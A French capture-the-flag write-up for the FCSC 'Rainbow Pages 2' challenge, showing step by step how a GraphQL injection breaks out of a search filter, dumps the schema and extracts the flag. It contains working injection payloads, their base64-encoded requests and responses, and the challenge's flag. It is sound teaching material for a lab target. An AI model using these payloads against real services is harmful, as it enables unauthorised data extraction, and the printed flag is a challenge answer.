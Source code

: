 # Rainbow Pages 2 - 250 pts


# Énoncé 
>
>La première version de notre plateforme de recherche de cuisiniers présentait quelques problèmes de sécurité. Heureusement, notre développeur ne compte pas ses heures et a corrigé l'application en nous affirmant que plus rien n'était désormais exploitable. Il en a également profiter pour améliorer la recherche des chefs.	
>
>Pouvez-vous encore trouver un problème de sécurité ?
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5007/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge était le dernier de la catégorie web du FCSC. C'est le grand frère du [RainbowPages](./RainbowPages.md) et le challenge qui m'a pris le plus de temps à résoudre sur ce CTF.


## Résolution

Dans un premier temps, comme d'habitude, j'ai jeté un oeil à la page web, qui ressemble à celle de la première version du site :

![rainbow2](../images/rainbow2.JPG)

Après plusieurs essais, on remarque une première différence, la requête ne se fait plus uniquement sur le champ firstname, mais sur firstname et lastname.

En interceptant la requête avec burp, on remarque également autre chose:

```
GET /index.php?search=YQ== HTTP/1.1
```

En décodant le base64, cela donne **"a"**. Nous avons donc uniquement la valeur de l'input qui passe dans l'URL, contrairement à la première version, ou pour rappel, la requête complète passait, on ne peut donc pas y insérer la requête qu'on veut, il faut trouver un autre moyen de récupérer le flag.

J'ai essayé dans un premier temps d'insérer des payloads comme dans la première version du challenge, en vain, à chaque fois : **Syntax Error**. C'était la partie la plus longue, la technologie m'étant inconnue, il a fallu trouver de la documentation. Après avoir compris la technologie, j'ai enfin trouvé comment était construite une requête qui recherchait par rapport à 2 champs différents.

Comme on sait que la recherche est effectuée parmi les champs firstname et lastname, et qu'on connait déjà le format utilisé dans [RainbowPages](./RainbowPages.md) on peut essayer de la reconstruire à partir des nouveaux éléments afin de comprendre son fonctionnement.

La requête serait de ce format :
```
Query{allCooks(filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}]}) { nodes { firstname, lastname, speciality, price}}}
```

Une fois cette requête trouvée, j'avais la base pour pouvoir réaliser mon injection. Après plusieurs essais, j'ai trouvé le payload permettant de refermer tous les champs ouverts comme ceci, au niveau du premier input :

```
a%"}},{lastname: {like: "%a%"}}]})

// cette requête nous permet de sortir du champ filter.
```

Afin de vérifier que la syntaxe était enfin bonne, j'y ai inséré le reste de la requête de base, et j'ai terminé par **#** qui permet de commenter en graphQL, et donc de ne pas interpréter le reste de la chaine:

```
a%"}},{lastname: {like: "%a%"}}]}){nodes { firstname, lastname, speciality, price}}}#
```

Avec cette requête, on devrait reçevoir tout comme si nous avions simplement mis "a" dans le champ.

Envoyons la :
```
GET /index.php?search=YSUifX0se2xhc3RuYW1lOiB7bGlrZTogIiVhJSJ9fV19KXtub2RlcyB7IGZpcnN0bmFtZSwgbGFzdG5hbWUsIHNwZWNpYWxpdHksIHByaWNlfX19Iw== HTTP/1.1

==>

{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Antoinette","lastname":"Martineau","speciality":"French traditional","price":3829},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]}}}
```

Après avoir enfin trouvé le bon payload, il faut donc faire une autre requête, à la manière d'un **UNION**. En graphQL, ça se fait de cette manière :

```
query {
  author(limit: 2) {
    id
    name
  }
  article(limit: 2) {
    id
    title
  }
}
```
Il nous faut donc insérer notre requête avant la fin de la query globale, juste avant la dernière } fermante. Essayons avec une requête permettant de lister le schéma de la base, comme dans [RainbowPages](./RainbowPages.md) :

```
a%"}},{lastname: {like: "%a%"}}]}){nodes { firstname, lastname, speciality, price}} __schema { queryType { fields { name description}}}}#

Nous retourne :

__schema":{"queryType":{"fields":[{"name":"query","description":"Exposes the root query type nested one level down. This is helpful for Relay 1 which can only query top level fields if they are in a particular form."},{"name":"nodeId","description":"The root query type must be a `Node` to work well with Relay 1 mutations. This just resolves to `query`."},{"name":"node","description":"Fetches an object given its globally unique `ID`."},{"name":"allCooks","description":"Reads and enables pagination through a set of `Cook`."},{"name":"allFlagNotTheSameTableNames","description":"Reads and enables pagination through a set of `FlagNotTheSameTableName`."},{"name":"cookById","description":null},{"name":"flagNotTheSameTableNameById","description":null},{"name":"cook","description":"Reads a single `Cook` using its globally unique `ID`."},{"name":"flagNotTheSameTableName","description":"Reads a single `FlagNotTheSameTableName` using its globally unique `ID`."}]}}
```

Après quelques requêtes pour se renseigner sur les champs, leur contenu etc, comme vu dans la v1 (je ne vais pas re-détailler ici) on arrive à construire la requête suivante :

```
a%"}},{lastname: {like: "%a%"}}]}){nodes { firstname, lastname, speciality, price}} allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#

Nous retourne : 

{"data": [...] "allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```



**FLAG :  _FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}_**

